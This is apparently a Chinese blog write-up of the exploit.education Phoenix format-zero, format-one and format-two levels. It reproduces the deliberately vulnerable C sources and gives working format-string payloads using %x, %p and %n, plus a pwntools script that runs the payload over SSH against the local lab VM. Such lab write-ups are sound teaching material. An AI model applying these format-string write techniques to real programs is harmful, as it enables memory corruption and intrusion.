 ```yaml
---
title: "[pwn笔记4]format-zero,format-one,format-two(phoenix)"
urlname: "pwn4"
date: 2023-05-03 17:07:24
tags: [pwn, format]
---
```

新的章节讲的是利用格式化字符串漏洞的故事。
format-two全是x86的题解，找了半天才在一个评论区里找到如何回避x86_64下\x00的坑

## format-zero
### 本题源码

```c
/*
 * phoenix/format-zero, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * 0 bottles of beer on the wall, 0 bottles of beer! You take one down, and
 * pass it around, 4294967295 bottles of beer on the wall!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

### solve

用15位的格式字符串，产生32位以上的输出，就可以覆盖到changeme。

c的可变参数是存在栈上的，对参数个数没有任何校验。所以我们直接搞一堆数字出来就行了。

```
user@phoenix-amd64:~$ python -c "print('%x'*15)"|/opt/phoenix/amd64/format-zero
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

用gdb看一下内存里格式化出了个什么：

```
(gdb) p (char*)0x00007fffffffe650
$4 = 0x7fffffffe650 "ffffe640f7ffc546712e712ea0a0a0affffe6d8078257825"
```

有48位呢

啊啊啊突然想起可以用"%32x"。。。。（为什么32位够呢，因为输入末尾有个\n）

## format-one

把changeme改成固定的0x45764f6c。只要在上一题的基础上接一个就行。

```
user@phoenix-amd64:~$ python -c "from pwn import *;print('%32x'+p64(0x45764f6c))"|/opt/phoenix/amd64/format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

p64用来把64位整数打包成bytes。

## format-two

### 源码

```c
/*
 * phoenix/format-two, by https://exploit.education
 *
 * Can you change the "changeme" variable?
 *
 * What kind of flower should never be put in a vase?
 * A cauliflower.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

### 理论

利用%n将已输出的字节数写入某个地址。

由于这里printf没有后面的参数，就可以写入栈里的某个地址。

首先 我们要找到 栈顶 距 我们可以控制的输入 有多远，然后填入%p，一个%p就可以消耗8字节。

此时x86和x86_64的情况有些不同，x86可以像这样（<https://n1ght-w0lf.github.io/binary%20exploitation/format-two/>）

```
/opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
```
把要写入的地址（changeme的地址）放在最前面，然后根据计算出的栈顶到字符串的距离写%x。
但是，x64的changeme地址末尾有\x00，还像上面那样搞会被截断，不过我们可以像这样：（<https://blog.lamarranet.com/index.php/exploit-education-phoenix-format-two-solution/>的评论区）

```
/opt/phoenix/amd64/format-two $'%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%n\xf0\x0a\x60'
```
每多一个%p字符串增加两字节，但是可以消耗掉栈上的8字节，这就形成了一个追及问题，直到某个数量后，栈上%n下面正好是0x00600af0。
### 坑
bash里拿$(balabala)作为参数时，如果里面有换行，会自动变成两个参数。
所以不能

```bash
/opt/phoenix/amd64/format-two $(cat payload)
```

### 来点python
```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
shellcode = b'%p'*15+b'%n\xf0\x0a\x60'

sh = shell.process(argv=["/opt/phoenix/amd64/format-two", shellcode])

sh.interactive()
```